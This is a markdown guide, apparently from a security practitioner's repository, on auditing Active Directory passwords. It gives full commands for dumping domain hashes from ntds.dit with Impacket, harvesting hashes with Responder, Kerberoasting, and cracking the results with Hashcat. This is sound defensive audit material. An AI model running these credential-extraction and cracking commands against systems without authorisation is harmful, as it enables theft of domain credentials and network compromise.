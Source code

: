 ## Password Auditing

In a Windows environment, organizations should consider occasional password audits.
In this type of engagement, we retrieve hashes from the environment and check how many might be cracked easily.

### Impacket

[Impacket](https://github.com/fortra/impacket) is a suite of AD-focused tools.
Some highlights are:
* secretsdump.py: Pull passwords and hashes from a target machine.  Also great for turning ntds.dit and the SYSTEM hive into hashes for a password audit!
* Get-GPPPassword.py: Look for old Group Policy Preference files - and local admin credentials stored within

#### Install

As a Python package, Impacket installs with `pipx`:

```bash
sudo apt install pipx
python3 -m pipx install impacket
pipx ensurepath
source ~/.bashrc
```

#### Use

As a quick check, use Get-GPPPassword to see if you have any local admin creds hanging out in a group policy preference file:

```bash
Get-GPPPassword.py 'toteslegit.local'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'
```

Or, for a password audit, first get all the hashes from the domain controller:

```cmd.exe
vssadmin create shadow /for=c:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\ntds\ntds.dit c:\ntds.dit
reg save hklm\system c:\system /y
```

Move them to your testing machine - and be sure to delete the copies in the root of `c:\`!

```bash
secretsdump.py -ntds ./ntds.dit -system ./system -outputfile /tmp/hashes.txt LOCAL
```

### Responder

Responder listens for misconfigured name resolution broadcasts.
Run Responder on a well-populated network segment and just wait for hashes!

#### Install

```bash
docker pull chriselgee/responder
```

#### Usage

```bash
docker run --rm -it --net=host --privileged chriselgee/responder:latest -I ens33
```

### Kerberoasting

#### Install

It came with Impacket!

#### Use

From an attack machine that can reach a domain controller, use **any** valid domain creds to look for kerberoastable accounts.
Once found, the tool will extract crackable hashes from Kerberos tickets.

```bash
GetUserSPNs.py toteslegit.local/user:Password123 -request -dc-ip 10.1.2.3
```

### Hashcat

#### Install

Installing [Hashcat](https://hashcat.net/hashcat/) is straightforward:

```bash
wget https://hashcat.net/files/hashcat-7.1.1.7z
7z x hashcat-7.1.1.7z
sudo ln -s $PWD/hashcat-7.1.1/hashcat.bin /usr/bin/hashcat
```

What's trickier is doing this on the right hardware.
Really, this needs to be run on a machine with a for-real GPU.
What doesn't matter (surprisingly) is what platform.
Hashcat runs just as well on Windows as it does on Linux.

What's _more artful_ is picking the right dictionary.
[Rockyou](https://www.skullsecurity.org/wiki/Passwords) is classic but a bit dated.
[Crackstation](https://crackstation.net/crackstation-wordlist-password-cracking-dictionary.htm)'s dictionary is larger and more current.
Many, many others exist across the internet.
The same is true for [mangling rules](https://in.security/2023/01/10/oneruletorulethemstill-new-and-improved/)!

It all comes down to the amount of time and compute you have.
Short on time?
Use a short list and no mangling.
Have a week on some 🔥 GPUs?
Use a mega list with crazy rules.

#### Usage

For Windows hashes, this is generally the idea:

```bash
hashcat -m 1000 -a0 /tmp/hashes.txt ~/Downloads/rockyou.txt
```

If you're trying to crack Kerberos tickets, the mode is more likely `-m 13100`, but don't be afraid to check the [wiki](https://hashcat.net/wiki/doku.php?id=example_hashes).

If we're using mangling rules, we would add something like `-r OneRuleToRuleThemStill.rule`.
